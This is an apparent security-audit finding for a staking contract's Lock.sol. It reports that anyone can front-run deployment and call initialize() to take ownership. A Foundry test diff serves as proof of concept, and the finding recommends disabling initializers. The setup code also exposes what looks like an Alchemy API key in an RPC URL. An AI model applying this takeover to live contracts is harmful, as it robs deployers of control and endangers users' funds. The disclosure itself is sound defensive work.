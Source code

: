 Keen Flaxen Quail

high

# Lock contract can get initialised by an attacker

## Summary
An attacker can become the owner of Lock.sol contract.

## Vulnerability Detail
After the deployment of the Lock.sol contract an attacker can front-run the deployer and initialize the contract, making him the owner.

## Impact
The deployer loses control over the contract and now the attacker is the owner.

## Code Snippet
In Setup.sol you can edit the [`setUp()`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/test/Setup.sol#L27) function and run the tests. They will fail because between the calls the attacker already initialized the contract and the deployer [`initialize()`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L76-L91) call will revert.

```diff
function setUp() public {
        user1 = vm.addr(1);
        user2 = vm.addr(2);
        user3 = vm.addr(3);
        deployer = vm.addr(9999999);
        uint256 forkId = vm.createFork("https://eth-mainnet.g.alchemy.com/v2/VZH1EtzO3RVWYSXs523zfhFzlO6KHnr6");
        vm.selectFork(forkId);

        vm.startPrank(deployer);
        lock = new Lock();
        lockList = new LockList(deployer);
        vm.stopPrank();
        
+       console.log("before attack");
+       address attacker = vm.addr(123);
+       vm.prank(attacker);
+       lock.initialize(address(lockList), 15000, 35000, attacker);
+       console.log("after attack");

        vm.startPrank(deployer);
        // Initialize the Lock contract with necessary configurations
@>      lock.initialize(address(lockList), 15000, 35000, deployer);
        _stakingToken = new MockToken("stakingToken", "stkToken", 18);
        _rewardToken = new MockToken("rewardToken", "reward", 18);
        rewardTokens.push(address(_rewardToken));

        // Configure staking token and reward token settings
        lock.setStakingToken(address(_stakingToken));
        lock.addReward(address(_rewardToken));
        lockPeriod.push(10);
        lockPeriod.push(20);
        lockPeriod.push(30);
        lockMultiplier.push(1);
        lockMultiplier.push(2);
        lockMultiplier.push(3);
        lock.setLockTypeInfo(lockPeriod, lockMultiplier);

        // Transfer ownership of locker lists to Lock contract
        _stakingToken.mint(user1, 1000e18);
        _stakingToken.mint(user2, 1000e18);
        _stakingToken.mint(user3, 1000e18);
        _rewardToken.mint(deployer, 10000e18);
        lock.setTreasury(address(0x4));
        lockList.transferOwnership(address(lock));
        vm.stopPrank();

        // Approve the Lock to manage staking tokens on behalf of users
        vm.prank(user1);
        _stakingToken.approve(address(lock), 10000e18);
        vm.prank(user2);
        _stakingToken.approve(address(lock), 10000e18);
        vm.prank(user3);
        _stakingToken.approve(address(lock), 10000e18);
        vm.prank(deployer);
        lock.setDefaultRelockTime(10);
    }
```

## Tool used

Manual Review

## Recommendation
If the contract is supposed to be an implementation contract used by a proxy add a constructor and disable initializers:
```solidity
constructor() {
  _disableInitializers();
}
```
If the contract is going to be used as is, inside a constructor call [`initialize()`](https://github.com/sherlock-audit/2024-05-gamma-staking/blob/main/StakingV2/src/Lock.sol#L76-L91) or move its contents there.